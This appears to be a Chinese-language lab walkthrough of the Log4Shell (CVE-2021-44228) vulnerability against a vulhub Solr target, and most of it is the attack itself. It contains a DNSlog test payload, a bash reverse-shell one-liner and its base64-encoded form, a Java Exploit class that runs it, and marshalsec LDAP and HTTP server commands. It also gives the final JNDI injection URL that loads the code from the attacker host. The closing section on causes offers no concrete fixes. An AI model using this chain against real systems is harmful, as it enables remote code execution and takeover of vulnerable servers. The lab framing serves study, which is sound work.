# 什么是Log4j2
顾名思义，log4j2是一个开源的日志库。它是apache下的java应用常见的开源日志库，是一个就Java的日志记录工具。在log4j框架的基础上进行了改进，并引入了丰富的特性，可以控制日志信息输送的目的地为控制台、文件、GUI组建等，被应用于业务系统开发，用于记录程序输入输出日志信息。
# 为什么会出现该漏洞
正常来说，后台捕获一条日志就直接给他当作字符串输出出来了。但是log4j2的lookup方法遇到${}这个格式的字符串会自动去查找并解析执行里面的内容。且日志获取的地方有很多，比如HTTP头、请求参数、登录名等等都有可能被捕获，而且很多应用在默认配置下就会记录这些信息。除了入口多，Log4j2 还被海量 Java 应用、中间件、云服务间接依赖，很多开发者甚至不知道自己用了它。所以它影响范围大，利用难度低，漏洞危害严重。
为什么要设计Lookup功能
核心目的：让日志系统更灵活、更强大，能够在运行时动态获取信息并记录。
在复杂的企业级应用中，日志内容常常需要包含一些运行时信息，例如：
- 当前服务器的 IP 地址
- Java 系统属性（
java.version） - 环境变量（
env:USER） - 容器或框架的上下文信息
如果使用 Lookup，开发者只需在日志配置或代码中写 ${java:version}，Log4j2 就会自动填充真实值，无需在代码中显式获取这些信息。这降低了代码侵入性，提高了配置的灵活性。
# 漏洞复现
# 环境搭建
我们这里使用docker来搭建靶场做演示
cd vulhub-master/log4j/CVE-2021-44228/
docker-compose up -d我们使用命令来查看靶场地址
docker ps
# 攻击复现
进入后是一个后台管理的页面

我们随便找一个功能点点击后抓包，得到一个数据包如下

我们来修改一下action参数使其报错

进入靶场日志后台我们可以看到刚才报错的日志，发现1111111被记录了下来。

我们可以先使用doslog来检测一下
http://192.168.35.167:8983/solr/admin/cores?_=1775053577222&action=${jndi:ldap://w1m4.callback.red}&core=demo&other=1&wt=json此时成功实现报错，并且我们刚才知道，action里的数据会被日志记录

我们查看dnslog服务，发现有一条记录

这就说明log4j2的lookup功能成功查找并解析该命令
# 漏洞利用（获取反弹shell）
我们先编写以下的恶意文件Exploit.java，我们反弹shell监听ip为192.168.35.128的9998端口，因此对应的bash命令为
bash -i >& /dev/tcp/192.168.35.128/7777 0>&1但是因为命令中的/<>&会被过滤或者编码，容易被拦截。所以我们对命令进行base64编码

得到命令为
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjM1LjEyOC83Nzc3IDA+JjE=}|{base64,-d}|{bash,-i}所以我们的恶意文件为Exploit.java
import java.lang.Runtime;
import java.lang.Process;
public class Exploit {
public Exploit(){
try{
Runtime.getRuntime().exec("/bin/bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjM1LjEyOC83Nzc3IDA+JjE=}|{base64,-d}|{bash,-i}");
}catch(Exception e){
e.printStackTrace();
}
}
public static void main(String[] argv){
Exploit e = new Exploit();
}
}对其进行编译（注：此处为了兼容尽量使用jdk版本为1.8）,得到恶意文件
javac Exploit.java我们将恶意文件放到kali攻击机里，开启一个http服务
python -m http.server 4444我们在攻击机里启动LDAP服务
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://192.168.35.128:4444/#Exploit" 1389此处的ip地址为http服务的ip地址，端口为http服务的端口。最后的端口为LDAP的端口，自定义即可
随后，我们来监听恶意文件中的端口
nc -lvnp 7777
最后执行攻击，JNDI注入，我们在使用刚才的漏洞点来构造payload如下
http://192.168.35.167:8983/solr/admin/cores?action=${jndi:ldap://192.168.35.128:1389/Exploit}访问该链接，实现报错

成功实现反弹shell

此时的http服务与LDAP服务日志如下

# 防御措施
| 设计初衷 | 安全缺陷 |
|---|---|
| 动态获取运行时信息，减少硬编码 | 未对输入来源做区分，导致用户输入也能触发 Lookup |
| 集成 JNDI 资源，方便企业应用 | 默认允许从远程 LDAP/RMI 加载代码，且无任何限制 |
| 提升配置灵活性，降低维护成本 | 忽视了“日志内容可能来自攻击者”的安全边界 |
所以说，Log4j2 开启 Lookup 功能并非“故意留后门”，而是当时安全设计理念落后于功能演进的结果。漏洞爆发后，社区迅速调整了默认安全策略，将便利性置于安全之后，这也是开源软件在安全事件中快速成熟的体现。